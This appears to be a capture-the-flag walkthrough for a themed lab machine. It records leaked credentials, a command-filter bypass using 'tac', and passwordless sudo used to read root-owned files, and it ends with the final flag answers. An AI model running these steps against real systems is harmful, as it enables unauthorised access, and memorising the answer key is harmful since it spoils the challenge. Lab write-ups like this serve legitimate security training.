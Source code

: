 # Credential
username: R1ckRul3s
password: Wubbalubbadubdub

# Website (80)
## /
- username R1ckRul3s in html

## robots.txt
- Wubbalubbadubdub

## login.php 
- Can login with the credential above

## portal.php (logined)
- Found base64 Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== in html, output is 'rabbit hole'.

### Command Panel
- `cat`, `head`, `tail` are disabled, we still got `tac` to use.
- First flag `mr. meeseek hair` is in the `./` dir.
		```bash
		$ ls
		Sup3rS3cretPickl3Ingred.txt
		assets
		clue.txt
		denied.php
		index.html
		login.php
		portal.php
		robots.txt
		$ tac Sup3rS3cretPickl3Ingred.txt 
		mr. meeseek hair
		```
- Second flag `1 jerry tear` is in the `/home/rick/second ingredient`.
	```bash
	$ tac /home/rick/second*
	1 jerry tear
	```
- We can do `sudo` without any password, so we can view the third flag `fleeb juice` in `/root/3rd.txt`.
	```bash
	$ sudo tac /root/3rd.txt
	3rd ingredients: fleeb juice
	```

# Flags
mr. meeseek hair
1 jerry tear
fleeb juice
